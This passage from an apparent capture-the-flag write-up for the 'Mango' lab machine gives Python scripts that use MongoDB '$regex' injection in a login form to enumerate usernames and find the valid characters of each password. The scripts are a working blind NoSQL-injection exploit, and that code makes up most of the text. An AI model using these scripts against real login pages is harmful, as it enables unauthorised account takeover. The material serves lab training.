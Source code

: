 ```python
        if response.status_code == 302:
            return char
    return None

def getUser():
    for ch in ['a', 'm']:
        username = ch
        while True:
            char = sendPayload(username)
            if char is not None:
                username += char
            else:
                print("Username found: {}".format(username))
                break

if __name__ == '__main__':
    getUser()
```

![image.png](/images/mango/image11.png)
We found the 2 username “admin” and “mango”.  Now using this 2 username we can write a python code to find their passwords. The logic goes same, i.e first find the valid character and then the actual password.

Let’s write a python code to find a valid character.

```python
from requests import post
from string import printable

url = 'http://staging-order.mango.htb/'

def sendPayload(user):
    valid = []
    for char in printable:
        regex = '{}.*'.format(char)
        data = {
            'username': user,
            'password[$regex]': regex,
            'login': 'login'
        }
        response = post(url, data=data, allow_redirects=False)
        if response.status_code == 302:
            valid.append(char)
    return valid

def getUser():
    for user in ['admin', 'mango']:
        valid_chars = sendPayload(user)
        print("Valid characters for {}: {}".format(user, valid_chars))

if __name__ == '__main__':
    getUser()
```
